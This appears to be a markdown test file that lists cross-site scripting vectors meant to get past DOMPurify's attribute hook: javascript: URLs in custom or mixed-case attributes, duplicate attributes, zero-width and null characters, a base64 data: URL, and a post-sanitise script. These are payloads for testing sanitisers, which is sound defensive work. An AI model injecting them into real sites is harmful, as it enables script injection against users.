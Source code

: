# DOMPurify Hook Bypass Attempts

## Attributes that survive afterSanitizeAttributes hook
<a href="safe.html" data-href="javascript:alert('data-href')">Link</a>
<img src="safe.jpg" data-src="javascript:alert('data-src')" />

## Custom attributes that bypass hook checks
<a xhref="javascript:alert('xhref')">Custom href</a>
<img xsrc="javascript:alert('xsrc')" alt="Custom src" />

## Attributes with unusual names
<a HREF="javascript:alert('uppercase')">Upper case</a>
<img SRC="javascript:alert('img-upper')" />
<a hReF="javascript:alert('mixed-case')">Mixed case</a>

## Multiple href/src attributes (first wins)
<a href="safe.html" href="javascript:alert('second-href')">Double href</a>
<img src="safe.jpg" src="javascript:alert('second-src')" />

## Attributes added after hook processing
<a href="safe.html">Link</a><script>document.links[0].href="javascript:alert('post-hook')"</script>

## Attributes with special characters in names  
<a hr‌ef="javascript:alert('zwsp-attr')">ZWSP in attr name</a>
<img s‍rc="javascript:alert('zwj-attr')" />

## HTML that triggers multiple hook calls
<a href="javascript:alert('multi1')"><img src="javascript:alert('multi2')" /></a>

## Malformed attributes that might bypass parsing
<a href="javascript:alert('malformed')" title=>Malformed</a>
<a href=javascript:alert('unquoted')>Unquoted</a>

## Attributes with embedded nulls or controls
<a href="java\x00script:alert('null')">Null byte</a>
<a href="java\x09script:alert('tab')">Tab char</a>

## Base64 in non-data URLs
<a href="data:text/html,PHNjcmlwdD5hbGVydCgnYmFzZTY0Jyk8L3NjcmlwdD4=">Not data URL</a>
<img src="https://example.com/PHNjcmlwdD5hbGVydCgnYmFzZTY0Jyk8L3NjcmlwdD4=" />

## Fragment identifiers with attacks
<a href="#javascript:alert('fragment')">Fragment</a>
<a href="/safe.html#javascript:alert('safe-fragment')">Safe with fragment</a>